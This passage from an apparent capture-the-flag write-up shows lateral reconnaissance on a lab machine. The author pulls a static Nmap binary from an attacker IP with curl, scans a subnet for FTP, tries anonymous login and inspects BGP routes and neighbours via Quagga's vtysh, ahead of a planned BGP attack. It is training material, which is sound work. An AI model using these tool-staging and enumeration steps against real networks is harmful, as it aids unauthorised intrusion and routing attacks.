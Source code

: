 Pinging the IP 10.120.15.1 with the FTP service works and 10.10.10.105 also responds back.
A better way to enumerate the network is to upload a [static Nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) onto this box to scan for services.
```markdown
curl 10.10.14.17/static_nmap -o nmap

chmod +x nmap
```

Scanning for open port 21 on 10.120.15.0/24:
```markdown
./nmap -Pn -p 21 10.120.15.0/24 --open
```
```markdown
Nmap scan report for 10.120.15.10

PORT   STATE SERVICE
21/tcp open  ftp
```

It found the client 10.120.15.10 with port 21 open and connecting to the FTP service via anonymous login works, but the `dir` command responds with the _error code 500_:
```markdown
ftp 10.120.15.10

ftp> dir
500 Illegal PORT command.
```

All the information collected has something to do with **BGP** so lets attack that protocol.

## Attacking Border Gateway Protocol (BGP)

There are two networks and with the **Quagga** shell it is possible to trace which of those route to 10.120.15.10:
```markdown
vtysh
```
```markdown
r1# show ip route 10.120.15.10

Routing entry for 10.120.15.0/24
  Known via "bgp", distance 20, metric 0, best
  Last update 00:00:40 ago
  * 10.78.11.2, via eth2
```

The network 10.78.11.0/24 (AS300) routes there.

More BGP information:
```markdown
r1# show ip bgp summary

Neighbor        V   AS
10.78.10.2      4   200
10.78.11.2      4   300
```
